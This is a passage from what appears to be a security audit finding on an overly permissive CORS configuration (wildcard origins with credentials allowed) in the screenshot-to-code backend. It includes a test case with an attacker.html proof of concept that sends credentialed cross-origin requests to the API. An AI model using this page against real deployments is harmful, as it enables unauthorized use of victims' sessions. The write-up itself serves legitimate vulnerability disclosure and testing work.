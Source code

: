     5. `allow_credentials=True` is also set, which means that cross-origin requests can include cookies and HTTP authentication credentials. While `allow_credentials=True` is often needed for legitimate cross-origin requests, when combined with `allow_origins=["*"]`, it widens the attack surface as it allows malicious sites to send credentialed requests.
    6. `allow_methods=["*"]` and `allow_headers=["*"]` further widen the permissive nature of the CORS policy, allowing all HTTP methods and headers for cross-origin requests.

- Security Test Case:
    1. **Setup:**
        - Deploy the `screenshot-to-code` backend to a public server (e.g., `api.screenshottocode.com`) and frontend to another domain or port (e.g., `screenshottocode.com` or `localhost:5173`).
        - Create a simple HTML file (e.g., `attacker.html`) to be hosted on `attacker.com` (or `localhost:8080` for local testing).
        - Replace `api.screenshottocode.com` with the actual backend URL and `http://localhost:5173` with the frontend URL if testing locally.

    2. **Attacker Website (`attacker.html`):**
    ```html
    <!DOCTYPE html>
    <html>
    <head>
        <title>Attacker Website</title>
    </head>
    <body>
        <h1>Malicious Website</h1>
        <button id="exploitButton">Trigger API Call</button>
        <script>
            document.getElementById('exploitButton').addEventListener('click', function() {
                fetch('http://api.screenshottocode.com/generate-code', { // Replace with your backend URL
                    method: 'POST',
                    headers: {
                        'Content-Type': 'application/json'
                    },
                    body: JSON.stringify({
                        image: 'data:image/png;base64, ... (some base64 encoded image data) ...', // Example image data
                        stack: 'html_tailwind'
                    }),
                    credentials: 'include' // Include credentials if needed for the API
                })
                .then(response => response.json())
                .then(data => {
                    alert('API Response: ' + JSON.stringify(data)); // Display API response (for demonstration)
                    console.log('API Response:', data); // Log API response to console
                })
                .catch(error => {
                    alert('Error calling API: ' + error);
                    console.error('Error calling API:', error);
                });
            });
        </script>
    </body>
    </html>
    ```
